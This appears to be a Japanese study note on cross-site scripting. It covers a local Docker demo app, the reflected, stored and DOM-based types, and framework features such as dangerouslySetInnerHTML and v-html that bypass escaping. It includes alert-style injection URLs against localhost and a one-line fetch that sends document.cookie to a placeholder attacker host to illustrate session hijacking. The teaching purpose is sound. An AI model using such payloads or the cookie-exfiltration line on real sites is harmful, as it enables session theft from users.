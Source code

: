 ## クロスサイトスクリプティングについて

### 概要

- XSS はクライアントからの入力値を基に動的に HTML を生成するような Web アプリケーションにおいて、生成される HTML に対してスクリプトを挿入可能である場合に発生するコードインジェクション系の脆弱性の一種。

- 例
  - クエリ文字列の name の値を参照し,`<p>Hello, nameの値！</p>`という HTML をレスポンスするアプリケーション

```bash
docker compose up
```

http://localhost:5002/?name=taro

ここで以下のようなクエリを送信するとどうなるのか。

`http://localhost:5002/?name=</p><script>alert("やあ^^")</script><p>`

- XSS 脆弱性を利用して挿入された Javascript プログラムは [SOP](https://developer.mozilla.org/ja/docs/Web/Security/Same-origin_policy) による制約を受けることなく、その Web ページ上のコンテキストにおいて任意の処理を実行できてしまう。

  - セッションハイジャックなどが起こせてしまう。

  ```js
  fetch(`http://attaker.example.com?cookie=${document.cookie}`);
  ```

- [XSS の種別](https://siteguard.jp-secure.com/blog/protect-for-xss/)

  - 反射型 XSS
    - リクエストに含まれるクエリ文字やボディの一部の内容をレスポンスとする HTML に反映するような Web アプリケーションで発生する
    - 被害者のブラウザ上で実行したいスクリプトを含んだ HTML がレスポンスされるようなクエリ文字が設定された URL に誘導し、攻撃を実現
  - 蓄積柄 XSS
    - ユーザの入力ちがデータベース等の永続的なストレージに格納され、かつ、そのデータを基に HTML を生成するような Web アプリケーションにおいて発生する。
    - 攻撃者はスクリプトが実行されるようなメモをデータベースに保存しておき、そのメモにアクセスさせるような URL へと被害者を誘導する
  - DOM-based XSS
    - 反射型や蓄積型 XSS はサーバサイドで HTML を動的に派生する際に発生する XSS だったが、クライアントサイドでクエリ文字列に`location.search`やフラグメント識別子(`location.hash`)等を基に DOM を操作する際に発生する XSS

- web アプリケーションの実装に応じてスクリプトの挿入方法も考える必要がある

  - 単純なエコーバック
    - `http://localhost:5003/simple?name=<script>alert(1)</script>`
  - 入力値が属性値として出力される場合
    - `http://localhost:5003/attribute_without_quote?name=/><script>alert(1)</script>`
  - 入力値が DOM 操作に利用される場合
    - `http://localhost:5003/dom_based?<script>alert(1)</script>`
    - これは実行されない
    - [参考](https://developer.mozilla.org/ja/docs/Web/API/Element/innerHTML#%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%81%AE%E8%80%83%E6%85%AE%E4%BA%8B%E9%A0%85)

- Web フロントエンドのフレームワークと DOM-based XSS
  - 今主流で使われている Web フロントエンドのフレームワークは、主にデータバインディング機能を提供することが特徴
  - 下記フレームワークを使う実装ではデータバインディングが多用されているので、デフォルトで出力値をエスケープする実装がなされている。
    - React
    - Vue.js
    - Angular
  - しかし、時にアプリケーション開発においては勝手にエスケープしないで欲しい場合がある（例えば、Markdown 記法で記述されたテキストを HTML としてレンダリングした上で表示したい場合など）
    - これを実現するための抜け道
      - React
        - [dangerouslySetInnerHTML](https://beta.reactjs.org/reference/react-dom/components/common#dangerously-setting-the-inner-html)
      - Vue.js
        - `v-html`ディレクティブ
        - `render` 関数における `domProps` や `domPropsInnerHTML`
      - Angular
        - (1.x 系)`ng-bind-html` ディレクティブ
        - (2.0 以降)`DomSanitizer.bypassSecurityTrustHtml`関数

### CSP: Content Security Policy
